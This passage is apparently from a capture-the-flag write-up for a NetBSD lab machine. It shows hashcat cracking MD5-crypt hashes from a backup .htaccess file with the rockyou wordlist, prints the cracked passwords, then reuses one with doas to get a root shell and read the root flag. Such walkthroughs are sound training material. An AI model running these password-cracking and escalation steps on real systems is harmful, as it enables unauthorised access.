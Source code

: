 There is backups of the webapp files, including the ".htaccess" file. We can compare it to the ".htaccess" file in the users' home directory and as shown above, it's different. Let's crack it with hashcat:

```
└─$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt                                             2 ⚙
hashcat (v6.1.1) starting...
...
└─$ hashcat -a 0 -m 500 hash.txt --show                                                                       2 ⚙
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
                                                
```

After just a few seconds, the second hash is cracked. Let's see if this is the password for our user:

```
luanne$ doas -u root /bin/sh
Password:
sh: Cannot determine current working directory
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cd /root
# cat root.txt
7a9b5c206e8e8ba09bb99bd113675f66
# 
```

We can run any command as root, so getting a shell as root is trivial, and we can grab the root flag to complete the box.

## Resources

{% embed url="https://man.netbsd.org/NetBSD-1.6/ps.1" %}







